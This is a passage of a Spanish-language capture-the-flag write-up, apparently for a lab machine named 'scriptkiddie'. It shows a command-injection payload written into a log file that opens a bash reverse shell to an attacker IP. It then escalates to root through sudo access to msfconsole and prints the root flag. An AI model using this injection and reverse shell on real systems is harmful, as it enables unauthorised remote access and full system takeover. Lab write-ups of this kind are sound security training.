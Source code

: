 Al modificar el archivo /home/kid/logs/hackers, el script scanlosers.sh se ejecuta.

Estuve intentando varias maneras de "bypassear" el cut que le aplica cuando lee el archivo hackers, hasta que lo conseguí.

```bash

echo " ;/bin/bash -c '/bin/bash -i>&/dev/tcp/10.10.16.38/4444 0>&1' # " > /no/existe 

```
Si no se pone el comentario del final, no te llegará la reverse shell.

## Usuario pwn

Una vez nos llega la shell, estamos como el usuario pwn.

```bash
pwn@scriptkiddie:~$ id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
pwn@scriptkiddie:~$
```

Hago ```sudo -l``` y veo que puedo ejecutar msfconsole como usuario root.

A partir de esto, la escalada es muy facil:

```bash
pwn@scriptkiddie:~$ sudo -l

Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

pwn@scriptkiddie:~$ sudo -u root /opt/metasploit-framework-6.0.9/msfconsole
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: View a modules description using info, or the enhanced version in your browser with info -d

msf6 > /bin/bash
[*] exec: /bin/bash

root@scriptkiddie:/home/pwn# cat /root/root.txt

9fb10676c35096d079eb083f7f99d7f3

root@scriptkiddie:/home/pwn#
```

